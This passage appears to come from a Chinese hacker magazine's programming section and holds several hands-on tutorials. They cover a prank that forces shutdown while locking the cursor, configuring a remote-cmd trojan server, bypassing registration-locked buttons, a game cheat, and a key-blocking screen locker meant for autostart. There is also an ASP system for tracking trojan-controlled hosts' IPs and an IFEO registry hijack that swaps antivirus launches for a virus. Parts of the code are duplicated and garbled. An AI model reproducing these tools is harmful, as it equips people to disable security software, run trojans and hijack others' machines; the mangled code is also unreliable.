Sleep(5);
return 0;
}

注释很详细了，我就不多解释了，效果就是鼠标点哪个窗口哪个窗口就开始抖动。

下面再来一个比较狠的。首先要介绍的是WinExec函数，这个函数的作用是执行一个程序，参数有两个，一个是程序的路径，另一个是运行方式。大家都知道关机用的程序shutdown吧，我们可以这样用，WinExec("shutdown -s -t 0",0)。后面的参数0表示隐藏窗口执行。当然，这不是全部，我们还有一个更绝的函数SetCursorPos，这个函数的作用是吧鼠标定位到屏幕的某个位置，想象一下，如果循环执行会是什么效果。我写的代码如下：

```
#include <stdio.h>
#include <windows.h>

int main()
{
WinExec("shutdown -s -t 10",1); //注意我可没有隐藏窗口
while(1)
{//这是一个死循环
SetCursorPos(0,0); //鼠标指针到0,0点了，也就是左上角
Sleep(1); //暂停1毫秒，免得CPU太累
}
return 0;
//习惯上还是写上吧
}
```

当这个程序执行之后，效果是这样的。首先弹出了要关机的提示，然后鼠标不听使唤了，纳罕之际，关机了。

当然，还有其他很多的玩法，大家就尽情地玩吧。在MSDN Lib里还有很多更好玩的函数，喜欢恶搞的叉子可以尽管把他们找出来。阅读MSDN Lib既可以提高编程能力也能提高英语水平，何乐而不为呢？至于本文中程序运行时的黑框框，大家就自己想办法处理吧。

## VB中配置方式的补充

上次，在杂志里看到的vb中的一些服务端配置方法，心里那叫一个激动啊，自己编的东西终于能像个东西了，赶紧试了试，却总是出现“类型不匹配”的错误。

我编的是远程cmd控制，程序本身没问题，就出在配置方法上。

先交代下配置方式：在服务端里加两个文本框，一个填20个a，另一个填5个b。配置器把服务端打开，找到a和b所在位置，并把域名和端口替换进去，代码如下：

```
Dim a as byte
Open app.path + "\server.exe" for binary as #1   '打开服务端
Seek #1 ,a所在位置   '找到20个a
Put #1,,text1.text '(ip地址)
for I = 1 to 20 - len(text1.text)   '写入ip地址
S = 0
Put #1,,s   '填充
Next
```

```
Close
```

大家可能也注意到了，只要ip地址小于20字节，在服务端里都是以“ip地址+空格”形式出现，当时作者配置的是下载者，网址后跟几个空格不构成影响，但ip地址和端口不同，只要后面或中间有空格，就会出现类型不匹配的错误。

要解决这个问题，说难也不难，只要用到2个函数：instr和mid，在服务端里添加两行代码即可。

代码如下：

```
C=instr(text1.text,"空格")   '找到被替换后文本框中第一个空格位置
Tradress=mid(text1.text,1,c)   '从第一个字节开始取到空格位置为止


```

这个方法只能说是笨办法中的小巧妙，谁叫咱只是小菜呢，如果有更好的办法，欢迎赐教。

## 黑客编程之按钮破解工具

HACKER120

说起软件的破解，想必各位黑X的忠实读者心里都有自己定性的一套吧！大家可能会觉得，无非就是OD加载软件、查找特殊字符、修改重点跳转、F2下断点、F7、F8单步执行。不过我们这里有点特殊，我们不用工具，自己写工具来实现一类注册软件的破解，也就标题所说的另类了。

某些要注册的软件，为了可以吸引更多的用户，他会把部分更强大更好用的功能禁止掉，用户需要注册了，这些功能才可以用，也就是传说中的灰色按钮了。用OD来对付这种软件的破解我不会，不过如果用编程的方法，其实也简单的。
所谓的灰色按钮只不过就是Disable属性被设置为TRUE，所以只要我们把这个属性设回FALSE就可以实现软件的破解了。设置这个属性我们可以用EnableWindow()。在MSDN中，这个API原型如下：

```
BOOL EnableWindow(
  HWND hWnd,
  BOOL bEnable
);
```

有两个参数，第一个参数指向一个窗口句柄，第二个指向一个布尔类型的值，这里我们设成FALSE就行了，所以所有的问题都放在了灰色按钮窗口句柄的获取上面来。

获取指定窗口句柄我们可以用FindWindowEx()函数，不过这个API的第一个参数也是一个窗口句柄，问题又放在这个父窗口句柄的获取上面来了。读到这里大家可能都可以猜得到了，没错！这里我们需要取用逐层查找的方法！（这里我也不多做说明了，不懂的话，大家也可以参考我之前写的文章。）可是，毕竟软件不是自己写的，里面的结构我们谁也不清楚，不过我们可以借助第三方软件spy++。为了方

便演示，这里我也模拟了一个软件，借助spy++也可以清楚的看到了软件的结构了（如图1）。

最后还要介绍一个API，FindWindow()该函数是用来获取顶层窗口句柄的MSDN中函数原型：

```
HWND FindWindow(
  LPCTSTR lpClassName,
  LPCTSTR lpWindowName
);


```

也比较简单，只有两个参数，第一个指向一个窗口类名，可以通过spy++获得，值得注意的是：MFC下对话框类名都是以#开头加数字的组合，使用起来很不方便，这里我就把工程窗口类名修改成text，至于如何修改，大家可以参考我的工程（工程我也打包了）或者在论坛找，方法我也已经发到论坛去了。

该说明的也说明了，下面也是惯例的，粘贴出参考代码来（程序运行如图2）。
在Crack按钮下面，我们直接创建一个线程就可以了，其他的事就交给线程函数了。

```
void CTestDlg::OnBnClickedOk()
{
  // TODO: Add your control notification handler code here
  //CDialogEx::OnOK();
  HANDLE hThread = CreateThread(NULL, 0, CrackThread, NULL, 0, NULL);
}
```

线程函数代码如下：

```cpp
DWORD WINAPI CrackThread(LPVOID lParam)
{
    HWND hWnd = FindWindow(NULL, _T("TabCtrl"));
    if (hWnd == NULL)
    {
        AfxMessageBox(_T("获取父窗口句柄失败!"));
        return 0;
    }
    HWND hWndA = FindWindowEx(hWnd, NULL, _T("SysTabControl32"), _T(""));
    if (hWndA == NULL)
    {
        AfxMessageBox(_T("获取子窗口句柄失败!"));
        return 0;
    }
    HWND hWndB = FindWindowEx(hWndA, NULL, _T(""), _T("确定"));
    if (hWndB == NULL)
    {
        AfxMessageBox(_T("获取子窗口句柄失败!"));
        return 0;
    }
    HWND hWndButton = FindWindowEx(hWndB, NULL, _T("Button"), _T("黑客X档案投稿"));
}
```

```cpp
if (hWndButton == NULL)
{
    AfxMessageBox(_T("获取子按钮窗口句柄失败!"));
    return 0;
}
EnableWindow(hWndButton, TRUE);
return 0;


```

当然在CreateThread之前我们还要先声明以下线程函数CrackThread()。

这样一个灰色按钮破解工具就诞生了，不过这样的软件相当笨拙，或者说相当专业吧！因为上面的窗口类，窗口标题都已经写死了！能不能做一个万能的灰色按钮破解工具呢？！可不可以一个工具就对付其他软件的灰色按钮呢？！答案是肯定的！这里我们再看看另外一个API IsWindowEnable()这个函数是用来判断窗口的状态的只有一个参数，就是一个窗口句柄，我们再来看几个API GetCursorPos() WindowFromPoint() GetClassName()第一个函数用来获取鼠标坐标的，第一二参数可以通过鼠标坐标获取到窗口句柄，最后一个参数就是获取一个窗口类名的，（至于这些函数的原型还有详细用法，大家可以参考MSDN的解说，这里为了省黑X宝贵的面板，我就不多说了）。我们可以利用这几个函数来模拟spy++的功能，配上EnumWindows()还有EnumChildWindows()，写出一个万能的灰色按钮破解软件，应该都不成问题了。这里就不给出代码了，就让各位编程爱好者自己回去试试吧，也当我留给大家的一个作业吧，呵呵(*^__^*)...

（文章中所涉及到的程序及代码已收录在光盘中）

## VB编写找茬外挂

wtbhk

### 一、前言

看X档案两年，菜鸟也当了两年。但作为高龄菜鸟，我觉得有必要拉一把低龄菜鸟。

找茬在游戏本就是打发时间用，做外挂更是没意义，笔者只是想给刚入门菜鸟以外挂编写的例程，愿少走弯路。真脑残到找茬还开外挂的，这个程序已经满足不了你，建议上百度和找。编写程序当然要简单粗暴有效，外挂也是一样，用最少的表达式得出最好的结果自然最好。

## 黑客编程

### 二、编程开始

#### 1. 实地测量

QQ大家来找茬游戏中，测量得，两幅图的长宽分别为380和285像素。左图的起始点相对于找茬窗口左上角坐标为(10,186)（注意Windows都是以左上角为坐标原点，向右x增加，向下y增加），右图为(403,186)。希望叉子还是自己测量下，推荐用截图软件，可放大有坐标。

#### 2. 句柄取得

取得找茬游戏的句柄，很简单，用Fhwnd = FindWindow(vbNullString, "大家来找茬")将句柄保存到变量Fhwnd中。

#### 3. 各种调整

打开VB画好界面（如图1）。设Form的BackColor为白色，美观而已。边框样式BorderStyle设为0。坐标度量单位ScaleMode设为3-Pixel像素。我们要直接将差异画到Form上，所以Form宽度ScaleWidth设为380（即找茬图片的宽度），高度ScaleHeight比285（找茬图片的高度）大能放下下面的按钮即可。

为了方便，先将外挂界面放到屏幕最右上角，将找茬游戏放到最左面。
图1

Form_load() 中写入

```
Me.Top = 0 '屏幕顶端
Me.Left = Screen.Width - 380 * Screen.TwipsPerPixelX '外挂界面右边紧贴屏幕右边缘Screen.Windth是取得屏幕的宽度(单位为缇)，Screen.TwipsPerPixelX是取得屏幕每像素的缇（不同设置每像素对应的缇不同）。
```

然后移动找茬游戏

```
Call MoveWindow(FhWnd, 0, 140, 800, 600, 0)
```

0,140是坐标，800,600是宽高。

#### 4. 差异提取

要得到两幅图的不同之处，用异或算法很简单，Windows API里正好有可用来图片异或的函数BitBlt，我们来看看函数原型：

BitBlt可把源设备中的像素传送到目标设备。找茬游戏为源设备，外挂为目标设备。

```
BOOL BitBlt(HDC hdcDest, int nXDest, int nYDest, int nWidth, int nHeight, HDC hdcSrc, int nXSrc, int nYSrc, DWORD dwRop);


```

hdcDest为目标设备号，这里填Me.hDC。

nXDest、nYDest为目标矩形区域的x、y坐标（这个坐标是相对于该设备而言的而不是相对于屏幕），填0,0。

nWidth、nHeight为矩形区域的宽度和高度，之前测得380,285。

hdcSrc为源设备号，设备号不同于句柄，可以用GetDC(Fhwnd)得到相应设备号。

nXSrc、nYSrc为源矩形区域的x、y坐标（同样是相对于该设备），左图是10,186，右图403,186。

dwRop为光栅操作代码。拷贝图片缺省即可，异或则需要填写&H660046。
图2

我们用BitBlt将找茬游戏的左图先复制到外挂界面，然后再用BitBlt将右图以异或的方式复制到外挂界面，这样右图和外挂界面上的底图（也就是刚复制的左图）就能比较出差异，显示在外挂界面上。

## 2011合订本上卷 黑客编程

Call BitBlt(Me.hDC, 0, 0, 380, 285, GetDC(FhWnd), 10, 186, vbSrcCopy) '直接复制左图。

Call BitBlt(Me.hDC, 0, 0, 380, 285, GetDC(FhWnd), 403, 186, &H660046) '异或方式复制右图。

效果如图2，五个不同的地方很明显能认出来。

#### 5.鼠标位置

差异有了，还需要能够接受用户的点击，将用户对外挂的点击模拟到游戏中去。首先要取到点击时鼠标相对于图片的位置，申明一个xy保存坐标。

```
Private Type POINTAPI
    x As Long
    y As Long
End Type
```

然后Call GetCursorPos(xy)将鼠标位置坐标保存到xy中。得到的xy是相对于屏幕的，需要转换。

xy.x = xy.x - ((Screen.Width - 380 * Screen.TwipsPerPixelX) / Screen.TwipsPerPixelX) '得到鼠标相对于外挂窗体的坐标，即相对于图片的坐标。

xy.x = 10 + xy.x

xy.y = 186 + xy.y '这里得到相对于找茬窗体坐标

#### 6.模拟单击

模拟一次单击可以用PostMessage。在此之前还需将xy进行高地位转换等，匹配PostMessage。

lParam = xy.x + (xy.y * &H10000) '将坐标进行高地位等转换。

Call PostMessage(FhWnd, WM_LBUTTONDOWN, MK_LBUTTON, ByVal (lParam)) '向游戏窗体投递鼠标单击消息。

#### 7.一些杂项

Form_load()里，加入

ok = False

Timer1.Interval = 1000

Timer1内容如下：

```
Private Sub Timer1_Timer()
    FhWnd = FindWindow(vbNullString, "大家来找茬")
End Sub
```

```
If FhWnd <> 0 Then
    Timer2.Interval = 2000 '移动找茬游戏窗口，延时两秒待游戏加载完毕
    ok = True
    Timer1.Interval = 0 '停止
End If
End Sub
```

Timer2内容如下：

```
Private Sub Timer2_Timer()
    Call MoveWindow(FhWnd, 0, 140, 800, 600, 0) '移动找茬游戏窗口
    Timer2.Interval = 0 '停止
End Sub
```

这样，外挂运行时1秒一次检测是否有找茬游戏，找到后停止寻找，设ok为True，延时两秒移动找茬游戏窗体。

“更新按钮”和窗体被点击时加上判断ok是否为True，以免出错。

```
Private Sub Command1_Click() '“更新”按钮
    If ok = True Then
        '略去差异提取代码
    Else
        MsgBox "请先开始游戏", 0, "提示"
    End If
End Sub
```

```
Private Sub Form_Click() '当外挂窗体被点击
    If ok = True Then
        '略去模拟单击代码
    End If
End Sub
```

最后注意申明用到的API函数，代码较长，详见光盘。

### 三、后记

使用后效果不错，遗憾的是不能实现自动化，想了很久也没想出方法。希望叉子们多多探索，多多进步！

（文章中所涉及到的程序及代码已经收录在光盘中）

## 简单编程为系统添加“透明锁”

花的神明

提起程序设计，大家都会想到ASP.Net, Java, JSP, Visual C++, Delphi等“大块头”开发工具。的确，这些专业开发工具功能强大，能够开发出复杂的程序。但是要想深入掌握这些专业开发工具，并灵活的设计专业的程序可不是一件轻松的事情。俗话说，尺有所短，寸有所长，对于初学者来说，如果想快速设计简单实用的程序，又不想大费周章的学习专业开发工具，那么AutoHotKey这款小巧的开发工具就是您不错的选择。同大型开发工具相比，AutoHotKey区区几兆的体积显得“娇小玲珑”，不过其强悍的程序设计功能却让人不能小觑。AutoHotKey简单易学，尤其对于系统编程最为实用，您只需记事本就可以快速开发出专业实用的程序来。其很大的优点是实现编译操作，让程序可以独立运行，用来开发绿色软件是在合适不过了。接下来，我们就通过实例来领略AutoHotKey的魅力吧。下载地址：http://home.tampabay.rr.com/kodi/ahk/AutoHotKeyInstall.exe

```
;使本程序窗口没有系统菜单，边框，标题栏等
Gui Font, s12
;设置本程序窗口字体大小为12
Gui Add, Text, cFFFFFF x15 y15, 系统已经被锁定，请输入正确密码解锁
;在本程序窗口左上角显示提示信息
Gui Show, w%A_ScreenWidth% h%Height%, Lock3d
;设置本程序窗口标题并显示本窗体
WinSet Transparent, 100, Lock3d
;将本程序窗口的透明度设置为100（范围从1到
```

### 一、编写脚本

我们这里开发有趣的系统锁程序，同一般的锁屏程序不同，其具有两个特点：其一是界面新颖，可以产生透明变色锁定效果。其二是解锁方式特殊，采用的是多键位同时点击的解锁方式，其优点是您可以任意组合字母键，数字键，鼠标键，以及各种控制键，让别人无从破解。使用AutoHotKey，我们只需编辑区区几行程序，就可以实现上述复杂的功能。打开Windows资源管理器，任选一个文件夹，在空白处点击右键，在弹出菜单中依次选择菜单“新建”→“AutoHotkey Script”，在当前路径下新建一个AutoHotKey脚本文件，将其改为合适的名字（例如“LockPC.ahk”）。在该文件的右键菜单中选中“Edit Script”，打开脚本编辑器（实际就是记事本），在脚本编辑器窗口开头处按回车键另起一行，输入以下脚本（如图1）。

```
SetBatchLines -1
;强制本程序持续运行，禁止进入休眠状态
#NotrayIcon
;在系统托盘中隐藏本程序图标
Height:=A_ScreenHeight+10
;取得当前屏幕高度值并加上10作为本程序窗口高度，其作用是覆盖任务栏
Gui -SysMenu
```

```
#SingleInstance
#Persistent
SetBatchLines -1
Height:=A_ScreenHeight+10
Gui +LastFound
Gui Font, s12
Gui Add, Text, cFFFFFF x15 y15, 系统已经被锁定，请输入正确密码解锁
Gui Show, w%A_ScreenWidth% h%Height%, Lock3d
WinSet Transparent, 100, Lock3d
WinSet AlwaysOnTop, On, Lock3d
SetTimer Color, 500

Color:
Random Rand, -99999, 9999999
Gui Color, %Rand%

Check:
If (GetKeyState("c") && GetKeyState("x") && GetKeyState("1"))
    goto GuiClose
IfWinExist ahk_class #32770
{
    WinHide ahk_class #32770
    z=1
}
Return

~E::
~Esc::
~Tab::
~F4::
~Button1::
~Button2::
~Button3::
~LWin::
~RWin::
~Alt::
~Up::
~Down::
~Right::
~Space::
~W::
~F1::
Return

GuiClose:
If Z = 1
    WinShow ahk_class #32770
ExitApp
```

图1

```
;彻底透明, 255为完全不透明
WinSet, AlwaysOnTop, On, Lock3d
;将本程序窗口置顶显示
SetTimer, Check, 0
;激活名称为Check的定时器, 并让其无间隔运行
SetTimer, Color, 500
;激活名称为Color的定时器, 并让其每隔500毫秒运行一次

Color:
Random, Rand, 999999, 9999999
;取得随机数
Gui, Color, %Rand%
;随机设置本程序窗口的颜色

Check:
;Check定时器代码
if (GetKeyState("c") && GetKeyState("x") && GetKeyState("1"))
;判断预设按键是否同时按下, 这里为同时按下c、x和1 (是小写的“L”不是1) 键
{
    goto GuiClose
    ;如果按键正确就跳转到GuiClose标签出
}
退出本锁定程序
WinShow ahk_class #32770
;显示真正的锁定桌面
WinHide ahk_class #32770
;将本程序窗口隐藏
Return
;该判断代码作用是检测真实桌面是否激活, 如果激活的话就将其隐藏

;以下为屏蔽各种控制键, 防止非法解锁
*Left::
*Right::
*Space::
*0::
*F1::
Return

以上程序段作用是屏蔽各种控制键, 防止非法结束本锁定程序

GuiClose:
if Z = 1
WinShow ahk_class #32770
ExitApp
;以上代码是显示真实桌面并结束本程序
```

```
*Left::
*Right::
*Space::
*0::
*F1::
Return

以上程序段作用是屏蔽各种控制键, 防止非法结束本锁定程序

GuiClose:
if Z = 1
WinShow ahk_class #32770
ExitApp
;以上代码是显示真实桌面并结束本程序
```

### 二、程序原理介绍

之后保存该“LockPC.ahk”文件即可，为了便于分析程序，在所有的代码行底部都添加注释语句，在AutoHotKey中，使用分号来标识注释语句。该程序的运行原理非常简单，首先创建一个和桌面大小相同的，没有边框和标题栏的窗口，并且可以设置本程序窗口的透明度。之后将本程序窗口设置为最顶端，覆盖在所有桌面窗口之上。这样让桌面是透明的，实际上本程序已经取得了系统的控制权。之后激活两个定时器程序，其中名称为“Check”的定时器作用是不间断检测是否按下预设键位，如果按下的话，可以为系统解锁。“Color”定时器的作用是每隔500毫秒将窗口的颜色随机设置，产生透明变色的锁定效果。为了防止别人使用各种控制键退出本程序，还对各种系统控制按键进行了屏蔽。

### 三、程序的编译运行

在该“LockPC.ahk”文件的右键菜单上点击“Compile Script”项，执行该脚本的编译操作，之后在同一路径下生成“LockPC.exe”文件。该程序可以独立运行，当运行该程序后，系统立即被锁定，同时产生让Windows产生透明变色的效果，只有按下预设组合键位，本例为同时按下“c”，“x”，“1”键（您可以任意修改按键组合），才可以为系统解锁。本程序可以屏蔽常用的控制键，防止别人非法解锁。为了防止别人重新开机，最好将程序放置到系统启动项中，让系统启动后自动锁定。

### 四、关键程序行分析

在以上程序中已经添加了比较详细的注释，理解起来很容易，下面只对关键的程序进行单独讲解。

在第3行中的“A_ScreenHeight”关键字代表屏幕的高度（但不包括任务栏），将其加上10来设置本程序窗口高度，这样可以让本窗口完成覆盖整个屏幕。

从第4行到第7行用来设置本程序窗口的特征，包括取消系统菜单，设置本程序字体为12，在本程序左上角添加提示信息，以及显示本程序窗口等。其中使用到了“GUI”函数，该函数是AutoHotKey的关键函数之一；功能很复杂，带有很多参数，这里仅仅使用了其一些常用参数。例如“Gui -SysMenu”语句表示禁用系统菜单，其中的“-”号表示禁用某项功能。

“Gui Font, s12”语句作用是设置本窗口字体大小，在“s”字符后面跟随字体的大小，这里是12。“Gui Add, Text, cFFFFF x15 y15, 系统已经被锁定，请输入正确密码解锁”语句的作用是在本窗口预设位置显示提示文本信息。其中的“Add”参数表示添加对象，“Text”参数表示添加的对象为文本，“cFFFFF”表示文本颜色，其中的“c”符号后面跟随具体的颜色值。“x”，“y”参数后面跟随文本显示的坐标点。“Gui Show, w%A_ScreenWidth% h%Height%, Lock3d”语句的用来显示本程序，其中的“Show”参数表示让本程序窗口真正显示，“w”，“h”参数用来指明本程序窗口的宽度和高度，“A_ScreenWidth”关键字代表屏幕宽度，其前后两个“%”表示该关键字的数值。“Lock3D”表示本窗口的标题名。第8行“WinSet Transparent, 100, Lock3d”语句的作用是设置本程序窗口的透明度，“WinSet”函数可以设置指定窗口的各项参数，“Transparent”参数用来设置目标窗口的透明度，其后面跟随透明度参数，范围从1到255，依次实现从完全透明到完全不透明，您可以需要进行设置，本例设置为100，产生半透明效果，最后一个参数是目标窗口的名称，这里的“Lock3d”就是本程序窗口标题名。第9行“WinSet AlwaysOnTop, On, Lock3d”语句的作用是将本窗口置顶显示，“AlwaysOnTop”参数表示执行置顶操作，“On”参数表示激活窗口置顶功能，后面跟随目标窗口标题名。第10和第11行设置了两个定时器，其中的“SetTimer”函数用来设置定时器，后跟定时器的名称和间隔的时间。

第13行到第15行表示“Color”定时器的代码，其中的“Check：”表示该定时器的运行起点，注意其后面必须跟随“：”符号，当遇到Return关键字或者下一个定时器标签后表示本定时器代码结束。语句“Random Rand, -99999, 9999999”的作用是从-99999到99999中随机取数，其中的“Random”函数用来产生随机数，“Rand”参数保存取得的随机数，“-99999, 9999999”表示随机数取值范围。语句“Gui Color, %Rand%”的作用是将取得的随机数设置本程序窗口的颜色，因为该定时器每隔500毫秒运行一次因此会产生窗口变色的动态效果。第17行“Check:”语句设置“Check”定时器标签，其中的“if (GetKeyState("c") && (GetKeyState("x")) && (GetKeyState("l"))”语句用来判断是否同时按下预设按键，这里为同时按下“c”，“x”，“l”键。其中的GetKeyState("按键名称")用来取得目标键是否处于按下状态，如果就按下就返回“True”，否则为“False”。当然，这里只是简单举例，您可以任意设置自己所需的按键组合，AutoHotKey支持的键位列表可以参见帮助文档，例如“if ((GetKeyState("c")) && (GetKeyState("x")) && (GetKeyState("RButton")) && (GetKeyState("LButton")))”语句可以判断是否按下“c”，“x”，鼠标左键和鼠标右键。if ( GetKeyState(“c”) && (GetKeyState("x")) && (GetKeyState("Enter")) && (GetKeyState("Backspace")))”语句可以判断是否按下“c”，“x”，回车和退格键。因为键盘上的按键众多，可以产生成百上千的键位组合，想破解几乎不可能。

第19行“goto GuiClose”跳转到“GuiClose”标签处，用来关闭本锁定程序。第20行到25行用来检测桌面是否激活，如果激活的话，就将其隐藏，防止别人随意解锁。其中的“IfWinExist”函数用来检测目标窗口是否存在，“ahk_class #32770”用来设定窗口类名，其中的“#32770”表示桌面窗口句柄。“WinHide”函数用来隐藏桌面。当桌面隐藏后，将变量Z的值设置为1。从27行到44行用来屏蔽常用的控制键（例如“Ctrl+Alt+Delete”，“Alt+Tab”等），防止别人非法结束本锁定程序。这里列举了很多常用控制键，注意其中的“*”符号，该符合和目标热键组合使用，表示通配键位，例如“*TAB：”就表示所有和“TAB”关联使用的按键组合，例如“Alt+TAB”，“Ctrl+Alt+Tab”等等，这样可以产生批量控制按键的作用。当然，这里只是列举了常用的屏蔽键，您可以将所有需要屏蔽的按键添加进来，具体的键位名称可以参见AutoHotKey版主文档。实际上，这里的程序已经可以屏蔽激活所有的控制键。注意在热键的后面必须跟随“：：”符号，表示当该键按下后，执行的处理语句。这里没有任何语句，只包含“Return”关键字，表示当按下以上控制键时，不执行任何操作，从而实现屏蔽按键的效果。第46到49行表示推出代码，当按下预设键位后，执行该处的语句，“if Z = 1”语句表示桌面是否隐藏，如果隐藏的话，使用“WinShow ahk_class #32770”语句激活桌面，“WinShow”函数表示显示目标窗口。最后使用“Exitapp”结束本程序，完成解锁。

（文章中所涉及到的程序及代码已收录在光盘中）

## ASP脚本之通用木马上线

各位X子看了这么久的X想必都成了养殖大户了吧，各式各样的远控木马也玩过不少了。菜菜我最近遇到了这样一个头疼的问题——用两种木马“管理”了两个主机。其实我也不想这样的，但是没办法，谁让咱的木马没能做到全免杀呢（其实是我懒得做免杀，直接用现成的了）？然后每次“管理”都要更新两次IP，好麻烦。而且我的空间还是一群哥们儿一起用，搞得我的网站空间乱糟糟的，到处都是IP.txt，文件覆盖经常发生，囧。

怎么办呢？想到了X提供的木马上线系统，照着弄一个呗。

首先，当然是创建一个用来存放更新ip的Access数据库了。打开Microsoft Office Access（不会有人不知道吧），新建一个“Access 2000”数据库，因为有的web空间只支持到2000所以为了通用就选2000的就行了。然后新建一张表，名为IP，添加四个字段，自动增长的id(习惯上要有这个)字段，user字段，pass字段和ip字段。除了id字段之外，全是文本型。好了，准备工作完成，下面开始写脚本。

首先，我们需要一个连接数据库的脚本conn.asp，内容如下：

```asp
<% 
    dim conn,constr,dbpath
    dbpath = "\IP.mdb" '变更数据库位置请修改这里
    constr = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(dbpath)
    '这是一个数据库连接字串
    set conn = Server.CreateObject("ADODB.Connection")
    '创建了一个数据库连接对象
    conn.Open constr
    '按照一般逻辑，这里就是连接数据库了
%>
```

其次，为安全起见，我们需要一个md5加密函数，直接从网上下DOWN一个md5.asp就ok。

接着，我们就要写更新用的up.asp。我写的版本内容如下：

```asp
<!--#include file="conn.asp" -->
<!--#include file="md5.asp" -->
<% 
    dim user,pass,ip '保存用户名，密码，ip的变量
    user = request("user")
    pass = request("pass")
    ip = request("ip")
    '上面三行是获取参数
    if user <> "" and pass <> "" then
        user = "'" & md5(user,16) & "'"
        pass = "'" & md5(pass,16) & "'"
        if ip = "" then
            ip = "'" & request.ServerVariables("REMOTE_HOST") & "'"
            '如果ip是空的，那就自动获取ip
        else
            ip = "'" & ip & "'"
            '否则的话就按照用户提交的ip来更新
        end if
        conn.Execute("update ip set ip=" & ip & " where user=" & user & " and pass=" & pass)
        '执行一个数据库更新语句
        response.write("<h1>OK</h1>")
    else
        response.write("<h1>更新失败<br>缺少参数</h1>")
    end if
    set conn=nothing
%>
```

结合注释，大家应该很容易理解这个脚本的工作过程，需要注意的地方我来说明一下。首先是前两行包含的“头文件”，刚刚准备的两个asp文件就这样包含进来使用


# 黑客编程

就可以了。其次，大家看过很多网站注入的文章，一定知道对数据库查询命令执行之前的敏感字符的过滤是很关键的。曾听说过某盗号木马用的asp收信文件存在漏洞，导致了web空间的沦陷，可见这有多危险。因此本着安全和懒惰的态度，我直接把用户名和密码一起md5了，什么过滤之类的通通不管了。不过在数据库添加东西的时候要注意了，用户名也要用md5存储。为了防止爆破，没有密码正误的提示，只要输入了，都会提示ok。

接下来就是关键的get.asp了，上代码：

```asp
<!--#include file="conn.asp" -->
<!--#include file="md5.asp" -->
<%
dim user,ip,format    '保存 用户名，ip地址，格式 用的变量
user = request("user")
format = request("format")

if user <> "" and format <> "" then
    user = "'" & md5(user,16) & "'"
    set rs = conn.Execute("select ip from ip where user=" & user)
    '这是一个数据库查询语句
    response.write(replace(format,"ip",rs.fields(0)))
    '这句很关键
    set rs = nothing
end if
set conn = nothing
%>


```

代码很简单，注意很关键的那句，用字符串替换函数把format变量里的"ip"串替换成了数据库中保存的ip地址。代码到此结束，下面开始检验劳动成果。

先试试自定义ip更新（图1、图2）。
然后试试自动获取ip更新（图3、图4）。
因为我是在虚拟机里搭建的本地环境，所以更新的是内网地址，在服务器上的话更新的就是你连接服务器时的地址。我的需求就这么多，就不再继续完善了。有些叉子可能希望有一个在线的注册页面，或者有些木马可能还有一个上线端口问题，这个就自由发挥吧，总之思路就是这样。

# AV终结者

轩辕流云

近日微软宣布将安全补丁KB971029提升为“高优先级”，用于彻底关闭Windows XP及Vista系统的U盘“自动运行”（AutoRun）功能，而AutoRun正是U盘病毒在不同电脑间交叉感染的主要途径。

尚记得开始接触计算机安全技术的几年，U盘病毒泛滥之势一如当下铺天盖地的特洛伊木马。且当时国内网民安全意识普遍较低，U盘病毒一度独霸天下。直到熊猫烧香于网上肆虐，才多少唤起了网民的安全意识。（熊猫烧香的源代码我贴在了论坛-编程魔方，有兴趣可以看下。）但熊猫烧香的硝烟尚未散尽，一种名为AV终结者的病毒便携映像劫持再一次横扫了网络。

AV终结者（Anti-virus Killer）又称u盘寄生虫、帕虫、随机器字母数字病毒，该病毒主要行为是：

- (1)禁用所有杀毒软件以相关安全工具，让用户电脑失去安全保障；
- (2)破坏安全模式，致使用户根本无法进入安全模式清除病毒；
- (3)强行关闭带有病毒字样的网页，只要在网页中输入“病毒”相关字样，网页遂被强行关闭，即使是一些安全论坛也无法登陆，用户无法通过网络寻求解决办法；
- (4)在各磁盘根目录创建可自动运行的exe程序和autorun.inf文件，一般用户重装系统后，会习惯性的双击访问其他盘符，病毒将再次被运行；

其他的不用赘述，今天我们便来讲下如何用映像劫持来禁用安全软件。

映像劫持（IFEO，Image File Execution Options）是为一些在默认系统环境中运行时可能引发错误的程序执行体提供特殊的环境设定。由于这个项主要是用来调试程序用的，对一般用户意义不大。默认是只有管理员和local system有权读写修改。当一个可执行程序位于IFEO的控制中时，它的内存分配则根据该程序的参数来设定，而Windows NT架构的系统能通过这个注册表项使用与可执行程序文件名匹配的项目作为程序载入时的控制依据，最终得以设定一个程序的堆管理机制和一些辅助机制等。出于简化原因IFEO使用忽略路径的方式来匹配它所要控制的程序文件名。

举个例子来说：你在电脑上安装了卡巴斯基，不慎中了AV终结者，病毒就会在IFEO中将卡巴斯基的主程序改为病毒，且IFEO使用忽略路径的方式来匹配所要控制的程序文件名，所以卡巴斯基无论安装在哪个路径，只要名字没有变化卡巴斯基就无法启动。每当试图运行卡巴斯基时，系统会优先检查IFEO并按照其中的设定去启动病毒而不是卡巴斯基。

这究竟是如何实现的呢？猜我会给出一大串又臭又长的源代码还是会贴出几十幅图片？不，都不是，我们需要的仅仅是一个注册表键值那么简单。

将以下键值输入注册表即可：

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\NT\CurrentVersion\Image_File_Execution_Options\avg.exe]
"debugger"="virus.exe"
```

其中avg.exe卡巴斯基主程序，virus.exe是病毒。

这样一来我们启动卡巴斯基的时候实际上启动的是病毒。但是这个方法缺点也很明显只从文件名进行判定，改个名字就是了（前提是你的杀软不涉及互斥体）。

鉴于现在这个病毒专杀早已出现，这里就不详细介绍如何清除了（把键值删掉就可以交给杀软了）。接下来我们聊聊这个东西还能怎么用。

由于AV终结者造成的严重影响，该注册表区已被众多安全软件列为重点监控对象。所以映像劫持用于攻击已基本失效。但我们要知道事物都有它的两面性，既然可以被病毒用来对付杀软，我们当然也可以用它来对付病毒。

现在有些木马病毒为了增加清除难度会创建多个进程守望相助。其中一个被关闭，其余的便会立刻重启该关闭的进程。如果没有专业工具想要清除这样的木马病毒是很困难的（某些情况可以尝试结束进程树，但请慎行行事）。

我们假设你的机器中了一支木马。经检查病毒有Trojanhorse1.exe与Trojanhorse2.exe两个进程，但两个进程互相保护结束其中一个瞬间就被另一个重启。但此时你手上并无称手的兵刃，正在一筹莫展。。。不过没关系赤手空拳我们一样可以干掉它。先准备一个小程序（当然如果你喜欢看层层叠叠的报错窗口也可以不准备，但如果准备的话一定要用小巧的，否则，嘿嘿），我们这里选用命令行。将下面的代码写入文本文档,并将文件后缀由.txt改为.reg并双击输入注册表。

```
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\NT\CurrentVersion\Image_File
